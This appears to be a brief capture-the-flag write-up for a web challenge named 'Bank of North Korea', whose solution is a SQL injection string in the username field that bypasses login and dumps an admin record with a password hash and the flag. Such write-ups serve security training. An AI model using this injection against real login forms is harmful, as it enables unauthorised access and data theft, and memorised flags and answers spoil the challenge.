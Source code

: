 # Bank of North Korea
[x] Points: 10
[x] Solves: 0

## Description
```
<link to host:port of LAMP container>
Flag Format: fresher{...}


```

## Solution
```
user_name = ' OR 1=1 and is_admin = 'yes' -- //
```

```
Username: 	kim
Hash: 	fe6578b055b08e32421df1f301362844
flag: 	fresher{supr3m3_l3ad3r}
is admin: 	yes 
```
##Flag
resher{supr3m3_l3ad3r}